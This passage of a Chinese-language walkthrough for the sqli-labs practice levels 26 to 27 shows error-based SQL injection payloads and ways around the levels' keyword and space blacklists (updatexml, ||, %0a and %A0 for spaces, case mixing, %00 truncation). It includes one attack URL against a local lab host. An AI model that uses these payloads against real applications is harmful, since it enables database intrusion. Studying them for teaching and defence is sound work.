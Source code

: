 payload 如下：

```php
0'||updatexml(1,concat(0x7e,(Select%0a@@version),0x7e),1)||'1'='1
```

比较意外的算是||可以绕过空格限制，不过细细想一下确实是这样的。

## less26a

​	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";

这就是跟less26的过滤是一样的，但是加了一个括号,但是如果用的是或操作的话，我们甚至可以不用关心这个括号：

~~~mysql
	$sql="SELECT * FROM users WHERE id=('0'||updatexml(1,concat(0x7e,(Select%0adatabase()),0x7e),1)||'1'='1') LIMIT 0,1";
~~~

其本质还是一种报错注入。

## less27

~~~php

function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
return $id;
}
~~~

这个的黑名单就很多了。不过我不得不说上面找的那个payload真是tmd强大

http://10.211.55.3/sqli-labs/Less-27/?id=0'||updatexml(1,concat(0x7e,(SElect%0adatabase()),0x7e),1)||'1'='1

可以过。

>
>
>```go
>做了这么多了，下来就不说如何拿到数据了，重点在于如何绕过，只要能够找到注入点，剩下的可以利用sqlmap 等等工具直接利用，毕竟在渗透中，没有那么多的时间让我们去消耗
>
>过滤了union和select
>绕过方式：双写 大小写
>0'%0aUnioN%0aSeleCT%0a1,2,3;%00
>0'%A0UnIoN%A0SeLeCt(1),2,3%26%26%a0'1
>
>这里说明一下，冒号可以做闭合用， %00用来截断 这样和注释有相同的含义，这下绕过就多了：注释，分号闭合，冒号%00截断
>也可以是;%23
>```
